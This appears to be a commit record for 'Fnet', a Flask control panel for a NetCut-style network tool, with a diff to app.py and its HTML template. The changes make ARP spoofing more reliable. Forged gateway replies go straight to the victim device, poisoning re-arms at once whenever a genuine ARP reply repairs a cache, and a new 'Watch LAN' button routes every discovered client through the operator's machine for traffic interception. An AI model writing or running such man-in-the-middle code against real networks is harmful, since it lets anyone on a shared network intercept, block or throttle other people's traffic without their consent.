

Before and after one commit to MatsoDev/Fnet, a Flask app: page / in a window 390 px wide. Shown: the top 476 px of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; data that the repository does not hold is empty; parts of the project's set-up code (start-up, migrations or seed data) failed here and were passed over.

Commit message:
fix: stabilize iPhone relay and bridged AP watch

```diff
--- a/app.py
+++ b/app.py
@@ -13,7 +13,7 @@ from scapy.layers.inet import IP
 from flask import Flask, jsonify, request, render_template
 
 DATA_FILE = Path(__file__).parent / "devices.json"
-VERSION = "2.0.0"
+VERSION = "2.1.0"
 app = Flask(__name__)
 
 class Device:
@@ -331,13 +331,16 @@ class TokenBucketForwarder:
                     existing["watch"] = bool(watch)
                 else:
                     rate = (kbps * 1000) / 8.0
+                    now = time.time()
                     self._targets[ip] = {"kbps": kbps, "mac": mac,
                                          "watch": bool(watch),
                                          "q": deque(), "cq": deque(),
                                          "qbytes": 0, "cbytes": 0,
                                          "tokens": min(rate * 0.05, 64 * 1024),
-                                         "last": time.time(),
-                                         "bw_bytes": 0, "bw_last": time.time(),
+                                         "last": now,
+                                         "created": now, "last_frame_at": None,
+                                         "last_up_at": None, "last_down_at": None,
+                                         "bw_bytes": 0, "bw_last": now,
                                          "down": 0, "up": 0,
                                          "trace": deque(maxlen=24)}
             else:
@@ -471,11 +474,14 @@ class TokenBucketForwarder:
                 entry = tgt_dst
                 out = Ether(dst=entry["mac"], src=self.our_mac) / pkt[IP]
                 entry["down"] += 1
+                entry["last_down_at"] = time.time()
             else:
                 entry = tgt_src
                 out = Ether(dst=self.gateway_mac, src=self.our_mac) / pkt[IP]
                 entry["up"] += 1
+                entry["last_up_at"] = time.time()
             with self.lock:
+                entry["last_frame_at"] = time.time()
                 out_b = bytes(out)
                 if len(out_b) < 100:
                     entry["cq"].append(out_b)
@@ -499,6 +505,15 @@ class TokenBucketForwarder:
                 live = round((t["bw_bytes"] * 8) / span / 1e6, 2) if span > 0 else 0.0
                 t["bw_bytes"] = 0
                 t["bw_last"] = now
+                last_frame = t.get("last_frame_at")
+                if not self.stats.get("sock_open"):
+                    health = "error"
+                elif last_frame is None:
+                    health = "waiting"
+                elif now - last_frame <= 10:
+                    health = "active"
+                else:
+                    health = "idle"
                 targets[ip] = {"kbps": t["kbps"], "mac": t["mac"],
                                "watch": t["watch"],
                                "qbytes": t["qbytes"] + t["cbytes"],
@@ -506,6 +521,10 @@ class TokenBucketForwarder:
                                "control_queued": len(t["cq"]),
                                "down_frames": t["down"],
                                "up_frames": t["up"],
+                               "health": health,
+                               "age_seconds": round(now - t["created"], 1),
+                               "last_frame_seconds": (round(now - last_frame, 1)
+                                                      if last_frame else None),
                                "live_mbps": live}
             return {"targets": targets, "stats": dict(self.stats)}
 
@@ -532,6 +551,8 @@ class NetCutController:
         self.our_mac = None
         self.our_ip = None
         self.state_lock = threading.RLock()
+        self.watch_lan_enabled = False
+        self.watch_lan_macs = set()
 
     def save_quota(self):
         with self.state_lock:
@@ -718,7 +739,7 @@ class NetCutController:
             claims = {}
             for d in self.devices:
                 if d.spoof_stop and not d.spoof_stop.is_set():
-                    claims[d.ip] = d.mac
+                    claims[d.ip] = d
             if not claims: return
             if a.op == 1:  # who-has
                 if a.pdst in claims:
@@ -727,18 +748,21 @@ class NetCutController:
                         hwdst=pkt.src, pdst=a.psrc)
                     self._arp_send(reply)
                 elif a.pdst == self.gateway_ip and a.psrc in claims:
-                    reply = Ether(dst=self.gateway_mac, src=self.our_mac) / ARP(
+                    # The target is asking for the gateway. Reply directly to
+                    # the target; sending this to the gateway lets the real
+                    # gateway answer the phone and bypass the relay.
+                    reply = Ether(dst=pkt.src, src=self.our_mac) / ARP(
                         op=2, hwsrc=self.our_mac, psrc=self.gateway_ip,
-                        hwdst=self.our_mac, pdst=a.psrc)
+                        hwdst=pkt.src, pdst=a.psrc)
                     self._arp_send(reply)
             elif a.op == 2 and self.gateway_ip is not None:
-                # Someone answered who-has gateway not via us -> re-poison it
+                # A genuine ARP reply can repair either side's cache. Re-arm
+                # both legs immediately instead of waiting for the timer.
                 if a.psrc == self.gateway_ip and a.hwsrc != self.our_mac:
-                    for ip in claims:
-                        force = Ether(dst=self.gateway_mac, src=self.our_mac) / ARP(
-                            op=2, hwsrc=self.our_mac, psrc=ip,
-                            hwdst=self.gateway_mac, pdst=self.gateway_ip)
-                        self._arp_send(force)
+                    for dev in claims.values():
+                        self._poison_once(dev)
+                elif a.psrc in claims and a.hwsrc != self.our_mac:
+                    self._poison_once(claims[a.psrc])
         except Exception:
             pass
 
@@ -801,6 +825,8 @@ class NetCutController:
                 continue
             if d.state != "Disconnected":
                 d.state = "Offline"
+        if self.watch_lan_enabled:
+            self._sync_watch_lan()
 
     def _start_spoof(self, dev):
         if dev.spoof_stop: return
@@ -812,15 +838,18 @@ class NetCutController:
         if dev.spoof_stop: dev.spoof_stop.set()
         dev.spoof_stop = None; dev.spoof_thread = None
 
-    def _spoof_loop(self, dev):
-        protect = Ether(dst=self.our_mac) / ARP(op=2, pdst=self.gateway_ip, hwdst=self.our_mac, psrc=self.gateway_ip, hwsrc=self.gateway_mac)
+    def _poison_once(self, dev):
+        if not all((dev.mac, dev.ip, self.gateway_ip, self.gateway_mac, self.our_mac)):
+            return
         p1 = Ether(dst=dev.mac) / ARP(op=2, pdst=dev.ip, hwdst=dev.mac, psrc=self.gateway_ip, hwsrc=self.our_mac)
         p2 = Ether(dst=self.gateway_mac) / ARP(op=2, pdst=self.gateway_ip, hwdst=self.gateway_mac, psrc=dev.ip, hwsrc=self.our_mac)
+        self._arp_send(p1)
+        self._arp_send(p2)
+
+    def _spoof_loop(self, dev):
         while dev.spoof_stop and not dev.spoof_stop.is_set():
-            self._arp_send(p1)
-            self._arp_send(p2)
-            self._arp_send(protect)
-            time.sleep(2.5)
+            self._poison_once(dev)
+            time.sleep(1.0)
 
     def _restore(self, dev):
         p1 = Ether(dst=dev.mac) / ARP(op=2, pdst=dev.ip, hwdst=dev.mac, psrc=self.gateway_ip, hwsrc=self.gateway_mac)
@@ -907,6 +936,36 @@ class NetCutController:
                     return True, "Connected"
         return False, "Not found."
 
+    def _sync_watch_lan(self):
+        count = 0
+        for d in self.devices:
+            if (d.ip == self.gateway_ip or d.mac == self.our_mac
+                    or d.state != "Connected"):
+                continue
+            ok, _ = self.set_watch(d.mac, True, bypass_quota=True)
+            if ok:
+                self.watch_lan_macs.add(d.mac)
+                count += 1
+        return count
+
+    def set_watch_lan(self, enabled):
+        if enabled:
+            if self.quota.mode in ("throttle", "block"):
+                return False, 0, "Disable active Quota Auto-Mode before Watch LAN."
+            self.watch_lan_enabled = True
+            count = self._sync_watch_lan()
+            return True, count, "Watching discovered LAN clients."
+        restored = 0
+        for mac in list(self.watch_lan_macs):
+            device = next((d for d in self.devices if d.mac == mac), None)
+            if device and device.state == "Watched":
+                ok, _ = self.set_watch(mac, False, bypass_quota=True)
+                if ok:
+                    restored += 1
+        self.watch_lan_macs.clear()
+        self.watch_lan_enabled = False
+        return True, restored, "LAN watch stopped."
+
     def rename_device(self, mac, name):
         for d in self.devices:
             if d.mac == mac:
@@ -968,6 +1027,8 @@ class NetCutController:
         if mode is None:
             self._restore_quota_devices()
             return
+        if self.watch_lan_enabled:
+            self.set_watch_lan(False)
         self.quota.mode = mode
         for d in self.devices:
             if (d.ip == self.gateway_ip or d.mac == self.our_mac
@@ -1005,6 +1066,8 @@ class NetCutController:
             if self.capture_stop: self.capture_stop.set()
             if self.auto_scan_thread: self.auto_scan_stop.set()
         self.forwarder.clear()
+        self.watch_lan_enabled = False
+        self.watch_lan_macs.clear()
         self.quota.mode = None
         self.quota.managed_devices.clear()
         if not stop_services:
@@ -1051,7 +1114,9 @@ def get_devices():
 def get_info():
     return jsonify({"ip": controller.ip, "gateway": controller.gateway_ip,
         "interface": controller.interface, "scanning": controller.scanning,
-        "scan_progress": controller.scan_progress, "version": VERSION})
+        "scan_progress": controller.scan_progress, "version": VERSION,
+        "watch_lan": controller.watch_lan_enabled,
+        "watch_lan_count": len(controller.watch_lan_macs)})
 
 @app.route('/api/scan', methods=['POST'])
 def scan():
@@ -1087,6 +1152,14 @@ def watch():
         return jsonify({"success": False, "error": "MAC and boolean watch state are required."}), 400
     ok, s = controller.set_watch(mac, data['watch'])
     return jsonify({"success": ok, "state": s}), (200 if ok else 409)
+
+@app.route('/api/watch_lan', methods=['POST'])
+def watch_lan():
+    data = request.get_json(silent=True) or {}
+    if not isinstance(data.get('enabled'), bool):
+        return jsonify({"success": False, "error": "Enabled must be true or false."}), 400
+    ok, count, message = controller.set_watch_lan(data['enabled'])
+    return jsonify({"success": ok, "count": count, "state": message}), (200 if ok else 409)
 
 @app.route('/api/rename', methods=['POST'])
 def rename():
--- a/templates/index.html
+++ b/templates/index.html
@@ -216,6 +216,9 @@
   .badge-cut { background: #da363333; color: #f85149; }
   .badge-throttle { background: #d2992233; color: #d29922; }
   .badge-offline { background: #484f5822; color: #8b949e; }
+  .badge-relay-active { background:#2dd4a322; color:#62e7be; }
+  .badge-relay-waiting { background:#ffbd5c22; color:#ffd28b; }
+  .badge-relay-error { background:#ff5d7322; color:#ff8799; }
 
   .device-traffic {
     font-size: 11px; color: #58a6ff; flex-shrink: 0;
@@ -274,7 +277,7 @@
 <div class="container">
   <header>
     <div>
-      <h1>Fnet <span>Control</span><span class="version-badge" id="versionBadge">v2.0.0</span></h1>
+      <h1>Fnet <span>Control</span><span class="version-badge" id="versionBadge">v2.1.0</span></h1>
       <div class="info" id="headerInfo">Loading...</div>
     </div>
     <div class="info" style="font-size:12px;display:flex;gap:10px;align-items:center">
@@ -292,6 +295,7 @@
     <button class="btn btn-danger" onclick="restoreAll()" id="restoreBtn"> Restore All</button>
     <button class="btn" onclick="throttleAll()"> Throttle All</button>
     <button class="btn" onclick="openWatch()" style="border-color:#d29922;color:#d29922"> Watch Traffic</button>
+    <button class="btn" onclick="toggleWatchLan()" id="watchLanBtn" title="Route discovered clients through Fnet so bridged access-point traffic can be observed"> Watch LAN</button>
     <div class="sort-group">
       <label>Sort:</label>
       <button class="btn btn-sm sort-btn active" data-sort="ip" onclick="setSort('ip')">IP</button>
@@ -356,6 +360,8 @@
 <script>
 let sortBy = 'ip';
 let quotaDirty = false;
+let watchLanEnabled = false;
+let forwarderTargets = {};
 
 async function api(url, opts) {
   const res = await fetch(url, {
@@ -381,6 +387,10 @@ async function loadInfo() {
         info.interface.replace(/\u200f/g,'') + ' \u00b7 ' + info.ip + ' \u2192 Gateway: ' + info.gateway;
     }
     if (info.version) document.getElementById('versionBadge').textContent = 'v' + info.version;
+    watchLanEnabled = !!info.watch_lan;
+    const watchLanBtn = document.getElementById('watchLanBtn');
+    watchLanBtn.textContent = watchLanEnabled ? ` Stop LAN Watch (${info.watch_lan_count || 0})` : ' Watch LAN';
+    watchLanBtn.classList.toggle('btn-primary', watchLanEnabled);
     document.getElementById('autoBadge').textContent = 'Auto: on';
     document.getElementById('autoBadge').style.color = '#3fb950';
     const wrap = document.getElementById('scanBarWrap');
@@ -450,6 +460,22 @@ async function setWatch(mac, watch) {
   if (!d.success) { toast(d.error || d.state, 'error'); loadDevices(); return; }
   toast(d.state === 'Watched' ? 'Now watching traffic for this device' : 'Watch stopped');
   loadDevices();
+}
+
+async function toggleWatchLan() {
+  const d = await api('/api/watch_lan', {
+    method: 'POST', body: JSON.stringify({ enabled: !watchLanEnabled })
+  });
+  if (!d.success) { toast(d.error || d.state, 'error'); return; }
+  toast(d.state + ` ${d.count} device(s).`);
+  await loadInfo(); await loadDevices(); await loadForwarder();
+}
+
+async function loadForwarder() {
+  try {
+    const report = await api('/api/forwarder');
+    forwarderTargets = report.targets || {};
+  } catch(e) { forwarderTargets = {}; }
 }
 
 async function throttleAll() {
@@ -627,6 +653,14 @@ function render(devices) {
     const thrKbps = isWatch ? 0 : (dev.throttle_kbps || 0);
     const macArg = attr(JSON.stringify(dev.mac));
     const nameArg = attr(JSON.stringify(name));
+    const relay = forwarderTargets[dev.ip];
+    let relayBadge = '';
+    if (relay) {
+      if (relay.health === 'active') relayBadge = '<span class="device-badge badge-relay-active">RELAY ACTIVE</span>';
+      else if (relay.health === 'error') relayBadge = '<span class="device-badge badge-relay-error">RELAY ERROR</span>';
+      else if (relay.health === 'waiting' && relay.age_seconds >= 8) relayBadge = '<span class="device-badge badge-relay-error">NO TRAFFIC INTERCEPTED</span>';
+      else relayBadge = '<span class="device-badge badge-relay-waiting">RELAY WAITING</span>';
+    }
 
     return `<div class="device-card${isOff ? ' disconnected' : ''}${isThr ? ' throttled' : ''}${isWatch ? ' watched' : ''}${isRouter ? ' router' : ''}${isOffline ? ' offline' : ''}">
       <div class="device-status"></div>
@@ -637,6 +671,7 @@ function render(devices) {
           ${isThr ? `<span class="device-badge badge-throttle">LIMIT ${fmtSpeed(thrKbps)}</span>` : ''}
           ${isWatch ? '<span class="device-badge badge-throttle">WATCHING</span>' : ''}
           ${isOffline ? '<span class="device-badge badge-offline">OFFLINE</span>' : ''}
+          ${relayBadge}
         </div>
         <div class="device-meta">
           <span>${dev.ip}</span>
@@ -683,9 +718,10 @@ function attr(s) { return String(s).replace(/&/g,'&amp;').replace(/"/g,'&quot;')
 loadInfo();
 loadDevices();
 loadQuota();
+loadForwarder();
 ['quotaLimit','quotaThrottlePct','quotaBlockPct','quotaKbps'].forEach(id =>
   document.getElementById(id).addEventListener('input', () => { quotaDirty = true; }));
-setInterval(() => { loadInfo(); loadDevices(); loadQuota(); }, 3000);
+setInterval(async () => { await loadInfo(); await loadForwarder(); loadDevices(); loadQuota(); }, 3000);
 </script>
 </body>
 </html>
```
Also changed, not shown: tests/test_app.py (+44 -0 lines), README.md, 1 other file.
